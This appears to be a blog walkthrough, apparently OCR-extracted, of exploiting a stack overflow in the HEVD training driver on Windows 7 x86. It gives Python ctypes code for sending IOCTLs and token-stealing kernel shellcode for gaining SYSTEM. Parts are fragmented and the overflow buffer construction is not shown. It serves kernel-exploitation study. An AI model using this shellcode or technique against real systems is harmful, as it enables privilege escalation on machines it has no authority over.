 ```yaml
---
layout: single
title: HEVD - Windows 7 x86 Kernel Stack Overflow
---
```


Walkthrough for the HEVD Windows Kernel Driver exploitation, exploiting a Stack-based vulnerability.

----

HEVD (HackSys Extreme Vulnerable Driver) is the Vulnserver of Kernel Land, it's a Windows kernel driver that is prone to various types of vulnerabilities, everything from basic Stack-overflows and UAF vulnerabilities, to Pool-overflows. HEVD is the de-facto standard for anyone who is looking to pursue the Offsec OSEE certification or for any security/vulnerability researcher who wants to learn kernel exploitation and kernel debugging. 

- [https://github.com/hacksysteam/HackSysExtremeVulnerableDriver](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)

*A strong User-mode exploitation history is recommended before continuing with kernel exploit development*

----

**Setting up our kernel debugging environment**

For Windows kernel debugging you will need to set up two separate virtual machines and establish one as the host and one as the victim, you will bind them together with a virtual Serial port, instead of stopping and debugging a single program, this will allow for managing and debugging the entire victim VM (as if it were an application).

1. Set up a Windows 7 x86 VM
2. Clone the VM -> and name the clone as the victim VM which will run HEVD
3. Set up the virtual Serial port, boot up the host VM in normal mode
4. Boot up the victim VM (debugging mode on startup)

A full tutorial on this can be found [online](https://medium.com/@eaugusto/setting-up-a-windows-7-virtualbox-vm-for-kernel-mode-debugging-367911889316) and one Google search away.

![KD debugging enviroment](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/debugKDenv.png)

----

**Driver analysis & IOCTL discovery**

A full blog post on the detailed specifics about utilizing IOCTLs for Windows kernel exploitation can be found [here](https://fullshade.github.io/windows/internals/2020/02/01/IOCTL-kernel-drivers.html), once you dive into the world of Windows kernel I/O, it gets very complicated, so the *what is an IOCTL* gets its own post.

But just to recap, an IOCTL is a system call code that allows for the communication from a user-mode application to a kernel-mode driver. To establish a communication session with the Kernel-mode HEVD device driver, we need to locate an IOCTL.

We can use the same technique and method as mentioned in the above blog post link. We can use IDA Pro and the `win_driver_plugin` IDA plugin to automate our IOCTL discovery (Automation will not always work and can easily generate false positives.) Static code analysis for the IOCTL discovery is also possible within the HEVD driver.


1. Load and install the IDA Pro plugin into the plugin folder
2. Edit > IOCTL > Find Dispatch (CTRL+ALT+S)
3. Right Click > Driver Plugin > Decode all IOCTLs in function

![ioctl auto](https://raw.githubusercontent.com/FULLSHADE/FULLSHADE.github.io/master/static/img/_posts/IDA-ioctls-plugin.png)

The `0x222003h` IOCTL code is what we can use for communication. This can also be discovered manually by viewing the `DriverEntry` function > to the `IrpDeviceIoCtlHandler` function which shows us the IOCTL code. Also, since HEVD is open-source, you can view the IOCTL definition macro in its source code and calculate each IOCTL with that.

----

**Communicating with the driver**

Since this exploit will be implementing in Python, we will be using the ctypes library, which allows for Windows Win32 API function using via utilizing the various DLL's that the functions are apart of. If your exploit is in C/C++ you just need to include the <windows.h> library to use the API function directly as the MSDN documentation gives.

We can use the [CreateFileA](https://docs.microsoft.com/en-us/windows/win32/api/fileapi/nf-fileapi-createfilea) function to establish a handler to the kernel-mode driver. CreateFileA is denoted by Microsofts MSDN docs as a function that allows for handler distribution from kernel-mode to allow for cross communications.

```python
    kernel32      	  = windll.kernel32

    lpFileName            = "\\\\.\HackSysExtremeVulnerableDriver" # --> Device driver
    dwDesiredAccess       = 0xC0000000 # --> (Generic_Read (0x80000000) + Generic_Write (0x40000000))
    dwShareMode           = 0
    SecurityAttributes    = None
    dwCreationDisposition = 0x3        # --> (Open_Existing)
    dwFlagsAndAttributes  = 0
    hTemplateFile         = None

    device_handle = kernel32.CreateFileA( 
    	lpFileName,
	dwDesiredAccess,
	dwShareMode,
	SecurityAttributes,
	dwCreationDisposition,
	dwFlagsAndAttributes,
	hTemplateFile
    )
```

After obtaining a handler to the driver and opening up the initial communication pathway, we can use the [DeviceIoControl](https://docs.microsoft.com/en-us/windows/win32/api/ioapiset/nf-ioapiset-deviceiocontrol) function to pass data through the handler and to the driver.

```python
    hDevice			= device_handle	  # --> The handler provided by CreateFileA
    dwIoControlCode		= 0x222003	  # --> (IOCTL code)
    lpInBuffer			= id_payload      # --> ID of our payload (token stealing shellcode)
    nInBufferSize		= bufSize         # --> buffer size of out payload
    lpOutBuffer			= None
    nOutBufferSize		= 0
    lpBytesReturned		= byref(c_ulong())
    pOverlapped			= None

    kernel32.DeviceIoControl(
    	hDevice,		# --> HANDLE
    	dwIoControlCode,	# --> DWORD
    	lpInBuffer,		# --> LPVOID
    	nInBufferSize,		# --> DWORD
    	lpOutBuffer,		# --> LPVOID
    	nOutBufferSize,		# --> DWORD
    	lpBytesReturned,	# --> LPDWORD
    	pOverlapped		# --> LPOVERLAPPED
    )
```


**Token stealing shellcode payload**

The payload being utilized is a token stealing shellcode payload, once the attacker has code execution in kernel-mode, they can provide this shellcode to steal a System level payload.

```assembly
token_stealing_shellcode = (
    "\x60"                            ; Save registers state
    "\x64\x8b\x80\x24\x01\x00\x00"    ; Get nt!_KPCR.PcrbData.CurrentThread
				      ; _KTHREAD is located at FS:[0x124]
    "\x8b\x40\x50"                    ; Get nt!_KTHREAD.ApcState.Process
    "\x89\xc1"                        ; Copy current process _EPROCESS structure
    "\xba\x04\x00\x00\x00"            ; WIN 7 SP1 SYSTEM process PID = 0x4
    "\x8b\x80\xb8\x00\x00\x00"        ; Get nt!_EPROCESS.ActiveProcessLinks.Flink
    "\x2d\xb8\x00\x00\x00"            

    "\x39\x90\xb4\x00\x00\x00"        ; Get nt!_EPROCESS.UniqueProcessId
    "\x75\xed"                        

    "\x8b\x90\xf8\x00\x00\x00"        ; Get SYSTEM process nt!_EPROCESS.Token
    "\x89\x91\xf8\x00\x00\x00"        ; Get current process token
    "\x61"                            
```

```
    "\x31\xC0"                        # NTSTATUS -> STATUS_SUCCESS
    "\x5D"                            # pop ebp
    "\xC2\x08\x00"                    # ret 8
)
```

```python
    shellcode_address = id(token_stealing_shellcode) + 20
    print("[+] Shellcode payloads address: %s" %shellcode_address)
    print("[+] Stealing NT Authority\System token...")
    return shellcode_address
```
Returning the id of our payload is required as a parameter for the `DeviceIoControl` function used above.

**Getting NT Authority \ SYSTEM**

![cmd shell as system](https://raw.githubusercontent.com/x00pwn/Windows-Kernel-Exploitation-HEVD/master/images/HEVD_stack-overflow.png)
